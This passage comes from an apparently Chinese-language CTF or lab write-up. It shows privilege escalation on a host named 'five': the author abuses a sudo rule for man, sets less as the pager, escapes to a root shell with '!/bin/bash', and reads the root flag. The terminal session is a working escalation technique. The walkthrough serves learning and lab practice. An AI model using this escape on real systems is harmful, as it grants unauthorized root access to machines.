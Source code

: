 这么多sudo文件，稳了，都稳了！！

https://gtfobins.github.io/gtfobins/man/#sudo

进行提权：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404211821907.png" alt="image-20240421181124703" style="zoom:50%;" />

但是无法输入命令。。。但是再kali中是可以执行的：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404211821908.png" alt="image-20240421181402648" style="zoom:50%;" />

根据大佬指点以后知道这是因为分页模式不同，使用less分页将阔以直接执行命令！

```bash
melisa@five:~$ sudo /bin/man man -P /bin/less
/bin/man: -P-/bin/less: No such file or directory
/bin/man: -P_/bin/less: No such file or directory
No manual entry for -P
--Man-- next: less(1) [ view (return) | skip (Ctrl-D) | quit (Ctrl-C) ]
!/bin/bash
melisa@five:~$ sudo /bin/man -P /usr/bin/less /bin/man
root@five:/home/melisa# cd /root
root@five:~# ls -la
total 32
drwx------  3 root root 4096 Oct  7  2020 .
drwxr-xr-x 18 root root 4096 Oct  5  2020 ..
-rw-------  1 root root  101 Oct  7  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-------  1 root root   59 Oct  5  2020 .lesshst
drwxr-xr-x  3 root root 4096 Oct  5  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   14 Oct  5  2020 root.txt
root@five:~# cat root.txt 
WTFGivemefiv
```

学到了，新姿势！！！！lol！